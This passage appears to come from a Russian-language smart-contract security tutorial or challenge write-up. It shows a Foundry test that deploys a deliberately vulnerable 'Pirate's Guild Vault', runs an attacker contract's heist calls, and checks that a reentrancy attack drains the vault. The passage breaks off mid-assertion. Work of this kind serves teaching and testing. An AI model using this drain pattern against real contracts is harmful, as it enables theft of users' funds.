 ### Проверка уязвимости в сокровище гильдии пиратов
В этом разделе мы используем Foundry для автоматизации процесса проверки уязвимости реентерабельности в контракте Pirate's Guild Vault.
Мы воспользуемся возможностями Foundry, чтобы не только выполнить эксплойт, но и убедиться в том, что уязвимость успешно использована.

Проверка эксплойта

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/PiratesGuildVault.sol";
import "../src/TheTraitorWithin.sol";

contract TraitorInBankTest is Test {
    PiratesGuildVault public vault;
    TheTraitorWithin public traitorContract;

    address public traitor = address(0x123);
    address public victim = address(0x456);

    function setUp() public {
        // Обеспечим злоумышленника и жертву эфиром
        vm.deal(traitor, 10 ether);
        vm.deal(victim, 5 ether);

        // Развертывание уязвимого контракта
        vault = new PiratesGuildVault();

        // Развертывание контракт злоумышленника с его адреса 
        vm.prank(traitor);
        traitorContract = new TheTraitorWithin(payable(address(vault)));

        // Жертва присоединяется к хранилищу и вносит средства
        vm.startPrank(victim);
        vault.joinGuild();
        vault.deposit{value: 5 ether}();
        vm.stopPrank();
    }

    function testTraitorHeist() public {
        // Убедитесь, что хранилище имеет ожидаемый баланс перед атакой
        assertEq(
            address(vault).balance,
            5 ether,
            "Vault initial balance incorrect"
        );

        // Злоумышленник проникает в хранилище через свой вредоносный контракт
        vm.startPrank(traitor);
        traitorContract.infiltrate();

        // Злоумышленник совершает ограбление
        traitorContract.executeHeist{value: 1 ether}();
        traitorContract.claimLoot();

        console.log("Final balance of the traitor:", traitor.balance);

        // Проверка баланса после ограбления
        assertEq(address(vault).balance, 0 ether, "Vault balance not drained");
        assertGt(
            address(traitor).balance,
```